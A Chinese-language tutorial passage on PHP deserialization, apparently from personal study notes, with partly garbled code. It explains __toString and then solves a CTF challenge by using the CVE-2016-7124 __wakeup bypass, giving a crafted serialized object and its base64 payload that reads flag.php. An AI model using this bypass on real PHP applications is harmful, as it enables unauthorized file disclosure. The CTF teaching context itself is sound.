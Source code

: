 ![](../../_Attachment/php反序列化入门.assets/image-20240606174848897.png)

#### __toString()

> __toString() 方法用于一个类被当成字符串时应怎样回应。例如 echo $obj; 应该显示些什么。此方法必须返回一个字符串，否则将发出一条 E_RECOVERABLE_ERROR 级别的致命错误。

ID \= $ID; $this\->sex \= $sex; $this\->age \= $age; $this\->info \= sprintf("ID: %s, age: %d, sex: %s", $this\->ID, $this\->sex, $this\->age); } public function \_\_toString(){ return $this\->info; } } $me \= new Caiji('twosmi1e', 20, 'male'); echo '\_\_toString:' . $me . '
'; ?> 运行结果：

![](../../_Attachment/php反序列化入门.assets/image-20240606174854069.png)


### 热身题

这是D0g3平台一道很简单的反序列化的题，GET读str内容进行反序列化等于$KEY就get flag了

file)) { if(strchr($this\-> file,"\\\\")\===false && strchr($this\->file, '/')\===false) show\_source(dirname (\_\_FILE\_\_).'/'.$this \->file); else die('Wrong filename.'); } } function \_\_wakeup(){ $this\-> file\='index.php'; } public function \_\_toString() return '' ; } } if (!isset($\_GET\['file'\])){ show\_source('index.php'); } else{ $file\=base64\_decode($\_GET\['file'\]); echo unserialize($file); } ?>


分析一下源码，`__destruct`方法中`show_source(dirname (__FILE__).'/'.$this ->file);`会读取file文件内容，我们需要利用这里来读flag.php，思路大概就是构造序列化对象然后base64编码传入，经过unserialize将file设为flag.php，但是`__wakeup`会在unserialize之前执行，所以要绕过这一点。

这里就要用到CVE-2016-7124漏洞，**当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行**

构造序列化对象：O:5:"SoFun":**1**:{S:7:"\00*\00file";s:8:"flag.php";}
**绕过__wakeup**：O:5:"SoFun":**2**:{S:7:"\00*\00file";s:8:"flag.php";}

注意：因为file是protect属性，所以需要加上\00*\00。再base64编码。
payload：Tzo1OiJTb0Z1biI6Mjp7Uzo3OiJcMDAqXDAwZmlsZSI7czo4OiJmbGFnLnBocCI7fQ==

这里可以自己写一个相对简单的例子来加以理解
